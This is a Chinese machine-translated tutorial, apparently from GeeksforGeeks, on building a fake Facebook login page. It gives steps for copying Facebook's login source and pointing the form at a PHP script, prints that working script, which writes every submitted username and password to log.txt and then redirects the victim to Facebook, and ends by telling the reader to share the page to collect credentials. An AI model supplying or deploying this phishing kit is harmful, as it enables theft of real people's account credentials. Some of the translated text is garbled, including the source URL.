

# 如何创建脸书钓鱼页面？

> 原文:[https://www . geesforgeks . org/如何创建-Facebook-网络钓鱼-页面/](https://www.geeksforgeeks.org/how-to-create-a-facebook-phishing-page/)



网络钓鱼是一种创建与现有网页类型相似的网页的技术。网络钓鱼是一种攻击类型，其中伪装成可信代理的入侵者试图获取您的个人信息，如密码、信用卡号或任何其他信息。

**创建脸书网络钓鱼页面的步骤:**

*   在浏览器中打开脸书登录页面。
*   按 ctrl+U 查找源代码。
*   复制整个源代码，创建一个 PHP 文件(index.php)并粘贴它。
*   现在，搜索 string methode="POST "，它会给你两个结果，第一个是登录，第二个是注册。
*   接下来，在登录表单中将操作文件名替换为“xyz.php”。
*   现在创建一个文件“xyz.php”和“log.txt”，并将下面的代码粘贴到“xyz.php”中。

**文件名:xyz.php**

## 服务器端编程语言（Professional Hypertext Preprocessor 的缩写）

```
<?php

// Set the location to redirect the page
header ('Location: http://www.facebook.com');

// Open the text file in writing mode
$file = fopen("log.txt", "a");

foreach($_POST as $variable => $value) {
    fwrite($file, $variable);
    fwrite($file, "=");
    fwrite($file, $value);
    fwrite($file, "\r\n");
}

fwrite($file, "\r\n");
fclose($file);
exit;
?>
```

现在你完成了，共享页面，如果有人输入用户名和密码，它将保存到 log.txt 文件中。